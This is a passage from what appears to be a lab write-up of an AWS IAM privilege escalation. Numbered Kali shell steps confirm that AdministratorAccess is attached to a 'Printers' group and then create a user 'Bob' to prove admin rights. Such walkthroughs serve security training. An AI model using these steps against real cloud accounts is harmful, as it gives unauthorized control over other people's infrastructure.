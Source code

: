 18. Unset all environment variables:

```text                                                                            
┌──(kali㉿kali)-[~]
└─$ unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN
```

19. Check policies attached to the Printers group:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam list-attached-group-policies --group-name Printers
{
    "AttachedPolicies": [
        {
            "PolicyName": "AdministratorAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
        }
    ]
}
```

Successfully attached AdministratorAccess policy to Printers group.

20. Try creating a new user named Bob to verify `Administrator Access`:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam create-user --user-name Bob
{
    "User": {
        "Path": "/",
        "UserName": "Bob",
        "UserId": "AIDAXVNZCLU6WJG47ZMAA",
        "Arn": "arn:aws:iam::527058492733:user/Bob",
        "CreateDate": "2023-05-11T10:08:49+00:00"
    }
}
```

Successfully performed a privileged operation.
